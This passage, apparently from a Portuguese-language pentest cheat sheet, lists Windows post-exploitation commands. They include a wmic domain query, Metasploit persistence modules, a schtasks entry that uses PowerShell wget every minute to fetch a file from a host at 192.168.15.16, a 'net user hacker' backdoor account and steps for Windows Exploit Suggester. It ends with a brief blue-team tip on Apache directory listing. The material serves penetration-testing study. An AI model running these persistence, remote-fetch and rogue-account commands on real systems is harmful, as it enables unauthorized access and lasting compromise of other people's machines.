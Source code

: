 ```
#os.system("wmic NTDOMAIN get Caption,ClientSiteName,CreationClassName,DcSiteName,DnsForestName,DomainControllerAddress,DomainControllerAddressType,DomainControllerName,DomainGuid,DomainName,DSDnsControllerFlag,DSDnsDomainFlag,DSDnsForestFlag,DSKerberosDistributionCenterFlag,DSPrimaryDomainControllerFlag,DSTimeServiceFlag,DSWritableFlag,InstallDate,Name,PrimaryOwnerContact,PrimaryOwnerName,Status")
```

#### MANTENDO ACESSO  
###### Script persistentes:  
```
meterpreter> run persistense -h
msf> use exploit/windows/local/persistence
msf> use exploit/windows/local/registry_persistence
```
###### Agendando tarefas:  
```
meterpreter> run scheduleme
meterpreter> run schtaskabuse
```
###### Agendando tarefa via cmd:
> CRIAR:  
```
schtasks.exe /create /sc minute /tn light-pixel_0xA3 /tr "cmd.exe /c powershell wget http://192.168.15.16/agendador.txt -O %USERPROFILE%/desktop/agendador.txt"
```
> DELETAR:  
```
schtasks.exe /delete /tn light-pixel_0xA3 
```
###### Adicionando um usuario:
```
net user hacker passwrod123 /add
```

#### ESCALAÇÃO DE PRIVILEGIOS  
###### Windows exploit suggester:  
```
C:\> systeminfo > sysinfo.txt
$ curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
$ pip install python-xlrd ; pip install xlrd --upgrade
$ git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
$ ./windows-exploit-suggester.py --update
$ ./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo sysinfo.txt
```


## BLUETEAM  
#### Desativando listagem de diretorio apache2:  
```
$ vi /etc/apache2/apache2.conf  #REMOVER O 'Options Indexes FollowSymLinks' para 'Options FollowSymLinks'
$ service apache2 restart
```
